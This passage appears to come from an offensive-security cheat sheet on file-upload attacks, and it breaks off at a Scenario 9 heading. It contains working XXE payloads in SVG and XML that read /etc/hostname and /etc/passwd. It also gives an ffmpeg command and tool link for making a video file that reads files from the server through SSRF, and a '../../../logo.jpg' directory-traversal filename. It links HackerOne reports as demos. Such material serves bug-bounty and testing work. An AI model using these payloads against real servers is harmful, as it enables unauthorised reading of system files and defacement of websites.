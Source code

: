 [Exploiting XXE via File Upload. Before moving further we must get… | by Gupta Bless | Medium](https://gupta-bless.medium.com/exploiting-xxe-via-file-upload-f6e62153e85d)

```xml
<?xml version=”1.0" standalone=”yes”?>

<!DOCTYPE test [ <!ENTITY xxe SYSTEM “file:///etc/hostname” > ]>

These 2 lines are base of xml. The only thing I changed here is “file:///etc/hostname”. I actually mentioned a system command which upon processing fetches the file from the server.

<svg width=”128px” height=”128px” xmlns=”<http://www.w3.org/2000/svg>" xmlns:xlink=”<http://www.w3.org/1999/xlink>" version=”1.1">

<text font-size=”16" x=”0" y=”16">&xxe;</text>

</svg>
------------------------------------------------------------------------------------------------------
<xml> <?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" >]> <username>&xxe;</username> </xml>
```

[Zivver | Report #897244 - XXE Injection through SVG image upload leads to SSRF | HackerOne](https://hackerone.com/reports/897244)

---

# **Scenario 7 ( Allowing video uploads )**

Due to a SSRF vulnerability in `ffmpeg` library, it is possible to create a video file that when uploaded to any application that supports video files (i.e Youtube, vk, Flicker etc)

you will be able to read files from that server when you try to watch the video!

**Command:** `ffmpeg -i video.avi{m3u} video.mp4` - [Tool](https://github.com/neex/ffmpeg-avi-m3u-xbin/)

---

# **Scenario 8 ( Directory Traversal )**

You can upload your file with the name of “`../../../logo.jpg`” for example to replace the main website logo.

This issue happens due to lack of validating the filename.

Demo: [Twitter | Report #191884 - Remote Unrestricted file Creation/Deletion and Possible RCE. | HackerOne](https://hackerone.com/reports/191884)

---

# **Scenario 9 ( Validating the file content and missing the file-name )**
